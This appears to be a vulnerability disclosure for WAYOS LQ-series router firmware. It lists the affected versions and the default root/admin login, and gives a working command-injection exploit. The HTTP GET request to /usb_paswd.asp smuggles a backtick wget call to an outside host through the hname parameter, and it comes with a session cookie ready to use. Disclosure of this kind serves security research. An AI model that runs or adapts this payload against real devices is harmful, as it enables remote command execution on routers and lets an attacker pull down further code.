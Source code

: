 **brand**：WAYOS

**The firmware link：**http://www.wayos.com/products/LQ09.html     08 07 06 05 04

**versions：**

LQ_09-22.03.17V
LQ_08_A2-22.03.17V
LQ_07_A2-22.03.17V
LQ_06_A2-22.03.17V
LQ_05_A2-22.03.17V
LQ_04-22.03.17V

**details：**

![image-20220921221849979](1_cmdi.assets/image-20220921221849979.png)



**exploit：**

You can emulate firmware or use a real device

The default account password is root/admin

```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0

Accept: application/json, text/javascript, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```


![image-20220921224742711](1_cmdi.assets/image-20220921224742711.png)

